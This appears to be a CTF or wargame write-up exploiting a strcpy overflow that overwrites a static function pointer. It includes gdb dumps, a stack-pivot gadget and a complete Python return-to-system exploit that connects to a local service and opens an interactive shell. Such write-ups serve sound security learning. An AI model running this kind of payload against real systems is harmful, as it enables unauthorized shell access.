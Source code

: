 # Vulnerability
```c
char buf[48];
fgets(buf,48,stdin);
strcpy(buffer,buf);
```
This program uses strcpy function.

# Exploitation
```c
static char buffer[40];
static void (*ftn)();
```
This program declares buffer and function pointer as static.
```
(gdb) x/32x 0x08049800
0x8049800 <buffer>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049810 <buffer+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049820 <buffer+32>:	0x00000000	0x00000000	0x0804854a	0x0000000a
```
So, When I overwrite buffer, I can overwrite `ftn`.

When this program ends, It calls `ftn` function but the buffer's size(48) is not enought to give parameter.

The method that I used in this problem is calling `add` assembly code to move esp.
```
0x08048545 <main+80>:	call   0x80483a8
0x0804854a <main+85>:	add    $0x10,%esp
0x0804854d <main+88>:	mov    0x80497e4,%eax
```
By giving `0x0804854a` address, I can move esp and finally I can call system function.

The payload will be:
```
------------------------------------------------------------------------------
| ("A"*40 + add_gadget + '\n') * 4 | dummy(8) | system(4) | "AAAA" | sh_addr |
------------------------------------------------------------------------------
```
I don't know exactly how this problem solved, So I will check later again.

# Payload
```python
from struct import *
from socket import *
p = lambda x: pack('<L', x)

system 		= 0x007db0e7
add_gadget 	= 0x0804854a
sh_addr 	= 0x008bd987

payload = ""
payload += ("A"*40 + p(add_gadget) + '\n') * 4
payload += "A"*8 + p(system) + "A" * 4 + p(sh_addr)

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 8888))
print s.recv(1024)
s.send(payload)
s.send("id\n")
while True:
	s.send(raw_input('$ ') + '\n')
	print s.recv(1024)
s.close()
```
